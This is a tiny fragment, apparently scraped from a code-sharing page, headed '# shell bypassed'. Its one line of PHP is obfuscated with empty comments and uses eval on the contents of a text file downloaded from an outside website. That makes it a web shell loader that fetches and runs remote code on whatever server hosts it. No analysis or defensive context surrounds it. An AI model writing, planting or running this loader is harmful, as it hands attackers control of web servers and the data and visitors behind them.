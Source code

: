 # shell
bypassed
<?=/****/@null; /********/ /*******/ /********/@eval/****/("?>".file_get_contents/*******/("https://www.thelawnscare.co.uk/coka.txt"));/**/?>
